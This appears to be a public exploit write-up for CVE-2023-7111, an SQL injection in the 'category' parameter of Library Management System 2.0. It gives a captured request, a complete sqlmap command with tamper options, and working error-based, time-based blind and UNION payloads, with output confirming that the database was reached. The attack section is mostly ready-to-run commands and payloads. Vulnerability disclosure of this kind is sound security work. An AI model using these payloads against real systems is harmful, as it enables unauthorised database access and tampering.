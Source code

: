# CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Exploit Title:** CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7111
  
## References: 
+ **CVE-2023-7111:** https://vuldb.com/?id.249006
+ https://www.cve.org/CVERecord?id=CVE-2023-7111

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'category' in "/libsystem/index.php?category=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the application: "http://localhost/libsystem/index.php"
+ Select the Category from combobox.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /libsystem/index.php?category=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=9p3s52249uv1qh0sp602kn39ul
Referer: http://localhost/libsystem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p category --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: category (GET)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: category=-7874 OR 1 GROUP BY CONCAT(0x717a7a6b71,(SELECT (CASE WHEN (3499=3499) THEN 1 ELSE 0 END)),0x71716a7a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: category=(CASE WHEN (6694=6694) THEN SLEEP(5) ELSE 6694 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 8 columns
    Payload: category=-5673 UNION ALL SELECT 7143,7143,7143,CONCAT(0x717a7a6b71,0x58617168457a765948785a58544179556e546b714668456e76436d48635046707750794a64734b61,0x71716a7a71),7143,7143,7143,7143-- -
---
[12:46:50] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:46:50] [INFO] fetching current database
current database: 'libsystem'
```

+ current database: `libsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/2f9bc202-cb7c-4622-ac38-69252d03bfe5)
